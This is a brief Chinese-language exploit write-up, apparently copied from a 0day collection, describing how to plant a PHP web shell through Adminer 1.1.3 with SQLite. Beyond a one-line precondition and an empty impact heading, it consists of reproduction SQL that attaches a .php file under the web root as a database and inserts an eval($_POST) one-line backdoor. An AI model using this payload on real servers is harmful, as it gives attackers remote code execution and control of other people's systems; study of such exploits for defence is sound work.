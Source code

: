 # Adminers 1.1.3 （SQLite 3 写入一句话木马）

> 原文：[http://book.iwonder.run/0day/Adminer/shell.html](http://book.iwonder.run/0day/Adminer/shell.html)

## 一、漏洞简介

需要登陆 Adminers，并且需要知道网站的路径。

## 二、漏洞影响

## 三、复现过程

```
ATTACH DATABASE 'z.php' AS t;create TABLE t.e (d text);/*

ATTACH DATABASE '/网站/路径/shell.php' AS t;insert INTO t.e (d) VALUES ('<?php eval($_POST[a])?>');/* 
```

